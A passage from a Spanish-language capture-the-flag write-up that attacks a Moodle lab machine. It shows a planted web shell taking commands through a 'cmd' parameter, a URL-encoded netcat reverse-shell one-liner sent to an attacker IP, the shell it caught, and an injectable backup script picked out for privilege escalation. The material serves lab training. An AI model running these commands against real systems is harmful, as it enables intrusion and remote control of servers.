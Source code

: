 ```bash
http://10.10.93.142:9020/moodle//blocks/rce/lang/en/block_rce.php?cmd=ls
block_rce.php
```
¡Sí! ¡Ya tenemos RCE! Entonces unimos una capa inversa.

```bash
======== Terminal 1 =========
╰─ curl -v http://10.10.169.13:9020/moodle/blocks/rce/lang/en/block_rce.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.9.0.241%201337%20%3E%2Ftmp%2Ff
*   Trying 10.10.169.13:9020...
* Connected to 10.10.169.13 (10.10.169.13) port 9020 (#0)
> GET /moodle/blocks/rce/lang/en/block_rce.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.9.0.241%201337%20%3E%2Ftmp%2Ff HTTP/1.1
> Host: 10.10.169.13:9020
> User-Agent: curl/7.74.0
> Accept: */*
>


======== Terminal 2 =========
╰─ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.0.241] from (UNKNOWN) [10.10.169.13] 35964
bash: cannot set terminal process group (748): Inappropriate ioctl for device
bash: no job control in this shell
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$
```
Pero no podemos leer la flag del usuario...

Entonces, ¡escaneemos la máquina nuevamente para escalar nuestros privilegios al usuario `plot_admin`!

Encontramos un script de copia de seguridad en el directorio `home` del usuario...

```bash
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ cat /home/plot_admin/backup.py
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
    for file in files:
        os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```

No es un script muy seguro, pero no podemos hacer nada con él, a menos que tengamos un `cronjob` ejecutándolo...
